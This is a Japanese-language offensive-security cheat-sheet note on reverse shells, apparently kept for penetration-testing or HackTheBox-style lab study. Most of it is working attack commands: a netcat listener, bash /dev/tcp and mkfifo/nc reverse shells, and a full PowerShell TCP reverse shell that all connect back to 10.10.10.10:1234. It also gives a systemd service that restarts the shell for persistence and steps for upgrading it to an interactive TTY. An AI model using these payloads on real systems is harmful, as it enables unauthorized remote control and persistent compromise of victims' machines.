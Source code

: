 ```yaml
---
tags:
  - Offensive
---
```


# Reverse Shell

エクスプロイトを実行して、攻撃対象のマシンに侵入またはリモートコードを実行できるとき、攻撃対象のマシンでコマンドを実行して、自分のマシンにシェルにリダイレクトさせることで、そのプロセスが生きている間は自分のマシンからいくらでもコマンドを実行できる。

[[BindShell]]の逆。

攻撃対象が自分からシェルを渡しに行く形になるので、INPUTのファイアーウォールを無視できる。

攻撃対象のマシンでシェルが閉じられた場合、すぐに切れてしまうのが弱点。そうなった場合、またエクスプロイトを実行してやり直す必要がある。その対策として、サービスとして自動で起動させる方法もある。

## NetCatで待ち受ける
```bash
nc -vnlp <使いたいポート>
```

## 攻撃対象のマシンで実行するコマンド例

[チートシート PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
- Powershell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## サービスの例

- .serviceファイル
```service
[Unit]
Description=<サービの説明>

[Service]
ExecStart=/bin/bash <サービスのshファイル>
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```
- サービスを起動
```
systemctl enable <サービス名>
```

## TTY

このままでは、矢印などが効かないので、ttyの設定をする。

1. 攻撃対象のマシンで実行(nc上)
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. 自分のマシンで実行
`Ctrl + z`で一時停止して、以下のコマンドを実行する。
```bash
stty raw -echo; fg
```

3. 自分のマシンで実行 (オプション)
以下の2つの出力をメモする。
```bash
echo $TERM
```
```bash
stty size
```
4. 攻撃対象のマシンで実行(nc上)
環境に合わせて適宜調整する。
```bash
export TERM=さっきの出力
```
```bash
stty rows さっきの出力 columns さっきの出力
```

---

## 参照

1. https://academy.hackthebox.com/module/77/section/725
2. https://qiita.com/docdocdoc/items/2427fa5ea28adc9f329f0